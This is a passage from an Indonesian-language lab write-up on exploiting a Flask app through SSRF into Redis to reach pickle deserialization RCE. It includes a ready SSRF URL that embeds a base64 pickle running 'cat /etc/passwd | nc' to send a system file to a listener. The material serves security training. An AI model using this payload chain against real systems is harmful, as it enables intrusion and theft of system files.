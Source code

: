 Session Id bisa kita lihat menggunakan fitur bawaan web browser, developer tools

![](../../.gitbook/assets/selection_016.png)



**\*Trivia: Flask Internal** 

Pada saat request mau berakhir atau saat views melakukan return, Flask secara internal akan memanggil method `finalize_request`, lalu dalam `finalize_request` terdapat pemanggilan lagi method `process_response` yang memanggil `save_session` dari _class_ `session_interface`. method `save_session` akan menyimpan nilai dari _session_ \(dalam konteks tulisan ini, value session akan disimpan ke Redis\). Kenapa informasi ini menjadi penting ? karena pada saat kita ingin mencoba mengubah nilai dari session yang ada di Redis via SSRF, nilai yang berhasil kita ubah via SSRF tadi malah akan di-overwrite kembali dengan nilai asli.

Setidaknya ada 3 skenario yang bisa lakukan akan agar nilai yang sudah diganti bisa langsung mendapatkan RCE pada Lab _**Pickle-Redis**_.

1. Saat _payload SSRF_ dieksekusi, secara bersamaan kita mengakses endpoint lain, misal /login \(cara ini bisa menggunakan _multithreading/multiprocessing_\) karena saat mengakses _endpoint_ lain, flask akan memanggil method "open\_session" dari class session\_interface, lalu mengambil nilai session \(jadi terhindar dari save\_session\).
2. Mengubah nilai dari _Session Id_, lalu me-write _Payload Pickle_ ke _Modified Session Id_ tersebut, contoh _Session Id_ nya adalah AAAA-AAAA-AAAA-AAAA, kita bisa mengubahnya menjadi AAAA-AAAA-AAAA-AAAB misalnya, lalu set AAAA-AAAA-AAAA-AAAB sebagai _Key_, nanti tinggal menggunakan AAAA-AAAA-AAAA-AAAB di sisi _client_ agar Flask membaca nilai dari _Session Id_ tersebut.
3. Menggunakan fitur _Master-Slave Redis_ \(_trigger via SSRF_ dengan command _SLAVEOF_\), lalu mengubah langsung nilainya karena setiap perubahan yang terjadi di _Master_ akan otomatis disinkronisasikan ke _Slave_.

Pada tulisan ini akan menggunakan skenario 2, karena sesuai dengan konteks dari Lab dan materi pembahasan tulisan ini.

```text
$ python2 payload_redis.py pickle
Key name > session:8ac1cb48-5064-4067-9e43-ed0df6856425
http://127.0.0.1:6379/_%0D%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%2444%0D%0Asession%3A8ac1
cb48-5064-4067-9e43-ed0df6856425%0D%0A%2492%0D%0AY3Bvc2l4CnN5c3RlbQpwMAooUydjYXQgL2V0Y
y9wYXNzd2QgfCBuYyAxMjcuMC4wLjEgOTA5MScKcDEKdHAyClJwMwou%0D%0A
```

**\*\*Note** __: _Session Id_ asli _session:8ac1cb48-5064-4067-9e43-ed0df685642**6**_ diganti menjadi _session:8ac1cb48-5064-4067-9e43-ed0df685642**5.**_

![Rce Result, cat /etc/passwd \| nc IP PORT](../../.gitbook/assets/selection_014.png)
